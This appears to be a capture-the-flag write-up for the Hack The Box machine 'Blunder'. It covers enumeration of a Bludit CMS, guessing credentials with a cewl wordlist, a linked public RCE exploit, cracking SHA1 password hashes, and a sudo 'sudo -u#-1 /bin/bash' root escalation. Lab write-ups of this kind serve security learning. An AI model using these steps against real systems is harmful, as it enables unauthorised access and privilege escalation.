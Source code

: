 1, Recon
	80/tcp http `Blunder | A blunder of interesting facts`
This so tricky, only one port is open.

And by basically enumerate we find the `/admin` the login page.
![](images/Pasted%20image%2020240910093858.png)
Check all of them, only the `/admin` would be useful for us, but others could not find anything.

we have get the version of this
`[http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2](view-source:http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2)"`
From the http-title, we have known this is a Blunder CMS.
So maybe we can find the default credit or guess some existed exploits.
In the exploit-db.
`Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass`
We have known there must be a username `admin` as the default administrator.
And even it could be exploited by Metasploit
`Bludit Directory Traversal Image File Upload Vulnerability`

and there is another file
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```
There is a username `fergus`
In this place, before we use rockyou.txt, we can make a wordlist.
`cewl http://10.10.10.191 > wordlist`
And we successfully get the credit.
`fergus:RolandDeschain`

When we login, we can try the RCE exploit.
`https://github.com/0xConstant/CVE-2019-16113.git`

Then we can get the www-data shell

2, get the user shell.
Enumerate the directory, there is a `users.php` file
```
"admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
```
We can try to crack it.
And there is also another version of `bludit-3.10.0a` and we can get another credit from that
```
"admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",

```

In this place, we can check the `/etc/passwd`
```
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
```

So the hugo would be invalid user and let's crack it.
`faca404fd5c0a31cf1897b823c695c85cffeb98d	sha1	Password120`

Let's su hugo.
And when we check the `sudo -l`
```
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
That was so tricky, and  we can check the sudo version

```
sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```
There is a exploit in exploit-db:
`sudo 1.8.27 - Security Bypass`
`sudo -u#-1 /bin/bash`
Then we can get the root shell.
